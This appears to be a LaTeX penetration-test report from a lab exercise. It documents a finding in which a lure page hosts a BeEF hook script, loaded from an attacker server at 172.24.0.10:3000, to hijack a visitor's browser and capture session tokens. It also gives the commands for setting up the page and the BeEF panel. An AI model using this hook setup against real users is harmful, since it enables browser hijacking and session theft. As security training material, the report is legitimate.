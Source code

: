 \section{Attack Narrative}
./ex110/report.tex

\section{Technical Report}



  \subsection{Finding: \emph{Descriptive Name}}
  	\subsubsection*{Severity Rating}
	Severity Risk: Low \\
    \cvss(L,H,L,R,U,L,N,N,2.2)
		
  	\subsubsection*{Vulnerability Description}
        Using social engineering, we know to expect a user to hit a page we are hosting. Using BeEF (Browser Exploitation Framework), we are able to capture
        the users browser and get sensitive information such as session tokens as well as use other possible social engineering attacks such as fake email login pages.

  	\subsubsection*{Confirmation method}
  	We must first create on our server with the URL \textbf{/coins/collection.html} and add a script to the page that hooks it to BeEF. This requires us to make a new directory,
    create a new page, add a script to the page, and then start or restart the apache server.
\begin{verbatim}
sudo mkdir /var/www/html/coins
sudo vim /var/www/html/coins/collection.html
In HTML:
    <script src='http://172.24.0.10:3000/hook.js'></script>
sudo service apache2 start
\end{verbatim}
    We can then navigate to the beef directory and start it up as follows:
\begin{verbatim}
./beef
xdg-open http://172.24.0.10:3000/ui/panel
\end{verbatim}
    Then, use the credentials found in the config.yaml in the beef directory to log in and wait. After some time, a new Windows user will appear and thus the attack is complete.
